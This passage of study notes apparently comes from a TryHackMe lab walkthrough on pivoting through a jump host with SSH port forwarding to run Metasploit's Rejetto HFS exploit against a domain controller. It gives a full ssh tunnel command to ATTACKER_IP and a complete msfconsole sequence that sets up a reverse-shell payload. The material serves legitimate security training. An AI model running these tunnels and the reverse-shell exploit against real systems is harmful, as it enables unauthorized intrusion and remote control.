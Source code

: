 First, let's take a look at how the exploit works. First, it will connect to the HFS port (`RPORT` in Metasploit) to trigger a second connection. This second connection will be made against the attacker's machine on `SRVPORT`, where a web server will deliver the final payload. Finally, the attacker's payload will execute and send back a reverse shell to the attacker on `LPORT`:
	![](Pasted%20image%2020241119020148.png)
With this in mind, we could use *SSH to forward some ports from the attacker's machine to THMJMP2* (*SRVPORT for the web server* and *LPORT to receive the reverse shell*) and pivot through THMJMP2 to reach `*RPORT on THMDC*`. We would need to do three port forwards in both directions so that all the exploit's interactions can be proxied through THMJMP2
	![](Pasted%20image%2020241119025903.png)
Rejetto HFS will be listening on port 80 on THMDC, so we need to tunnel that port back to our attacker's machine through THMJMP2 using remote port forwarding. Since the attackbox has port 80 occupied with another service, we will need to link port 80 on THMDC with some port not currently in use by the attackbox. Let's use port 8888. When running ssh in THMJMP2 to forward this port, we would have to add `-R 8888:thmdc.za.tryhackme.com:80` to our command.

For *SRVPORT* and *LPORT*, let's choose two random ports at will. For demonstrative purposes, we'll set `SRVPORT=6666` and `LPORT=7878`, but be sure to use different ports as the lab is shared with other students, so if two of you choose the same ports, when trying to forward them, you'll get an error stating that such port is already in use on THMJMP2.

To forward such ports from our attacker machine to THMJMP2, we will use local port forwarding by adding `-L *:6666:127.0.0.1:6666` and `-L *:7878:127.0.0.1:7878` to our ssh command. This will bind both ports on THMJMP2 and tunnel any connection back to our attacker machine.

Putting the whole command together, we would end up with the following:

THMJMP2: Command Prompt
```shell-session
C:\> ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

We also have to enable ssh on our attacking machine:
```
systemctl enable ssh
```

Once all port forwards are in place, we can start Metasploit and configure the exploit so that the required ports match the ones we have forwarded through THMJMP2:

```shell-session
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7878 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```
